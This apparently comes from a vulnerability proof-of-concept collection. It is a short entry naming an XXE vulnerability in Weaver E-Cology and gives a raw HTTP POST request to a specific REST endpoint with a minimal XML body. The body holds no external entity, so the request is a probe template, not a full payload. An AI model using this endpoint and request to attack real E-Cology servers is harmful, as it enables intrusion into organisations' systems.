 泛微E-Cology XML外部实体注入漏洞

```
POST /rest/ofs/deleteUserRequestInfoByXml HTTP/1.1
Host: 
Content-Type: application/xml
Content-Length: 53

<M>
    <syscode>
        666
    </syscode>
</M>
```
